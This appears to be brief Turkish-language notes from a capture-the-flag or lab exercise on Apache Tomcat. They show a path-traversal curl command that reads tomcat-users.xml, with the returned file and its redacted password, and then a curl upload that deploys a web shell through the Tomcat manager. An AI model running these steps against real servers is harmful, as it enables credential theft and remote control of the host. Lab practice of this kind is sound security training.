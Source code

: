 #Tomcat 
tomcat-users.xml dosyası nerede olur?

 Mesela opt altında ise tomcat:x:1002:1002::/opt/tomcat:/bin/false

Genel olarak evet, Tomcat’in kullanıcı tanımlarının bulunduğu dosya: /opt/tomcat/conf/tomcat-users.xml dosyasında bulunur 
```bash
curl --path-as-is 'http://10.10.61.142:8888/../../../../../../../../../../../../../../../../../../../../opt/tomcat/conf/tomcat-users.xml'
<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">

  <role rolename="manager-script"/>
  <user username="tomcat" password="[REDACTED]" roles="manager-script"/>

</tomcat-users>
```
##tomcat'e file upload
```bash
 curl --upload-file webshell.war -u tomcat:password 'http://10.10.61.142:8080/manager/text/deploy?path=/webshell&update=true' 
OK - Deployed application at context path [/webshell]
```
